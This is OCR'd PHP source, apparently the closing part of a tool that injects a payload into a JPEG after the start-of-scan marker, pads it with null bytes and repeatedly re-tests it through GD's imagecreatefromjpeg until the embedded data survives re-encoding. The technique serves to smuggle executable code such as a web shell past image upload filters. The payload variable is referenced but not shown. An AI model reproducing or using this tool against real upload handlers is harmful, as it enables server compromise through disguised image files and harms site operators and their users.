 ```php
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    str_repeat("\0",$nullbytePayloadSize) .
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream =
                        substr($outStream, 0, $startPos) .
                        $miniPayload .
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
```